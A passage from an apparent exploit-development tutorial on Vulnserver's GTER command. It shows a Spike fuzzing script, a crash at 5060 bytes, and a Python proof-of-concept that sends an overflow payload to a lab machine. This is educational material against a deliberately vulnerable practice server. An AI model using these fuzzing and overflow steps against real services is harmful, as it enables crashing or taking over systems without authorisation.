 ![GTER command syntax](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gter/gter1_bow4kj.webp)

</div>

Ok, it’s fuzz time.

## Fuzzing GTER

As we did before with the `TRUN` command, we discovered the syntax
needed for the `GTER` command. And again, we’ll be using
[Spike](https://github.com/guilhermeferreira/spikepp) to help us with
our fuzzing.

As `GTER` uses a similar syntax to the `TRUN` command, we can reuse the
Spike script created in our previous post and just change the command.

**gter.spk.**

``` c
s_string("GTER ");
s_string_variable("*");
```

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol, and `s_string_variable` tells `Spike` to use that
string as a fuzz point.

Now we can send the fuzz attack to the victim machine:

<div class="imgblock">

![Running spike](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331146/blog/vulnserver-gter/fuzz1_eahyra.gif)

</div>

Ugh\! After a few iterations, `vulnserver.exe` crashed, and it seems
that it happened when we sent 5060 bytes of data. Let’s check the
offending payload on `Wireshark`:

<div class="imgblock">

![Wireshark capture](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331145/blog/vulnserver-gter/wireshark1_ohyi15.webp)

</div>

We can now create a `PoC` (Proof-of-Concept) file with that information:

**exploit.py.**

``` python
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 5060
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
```
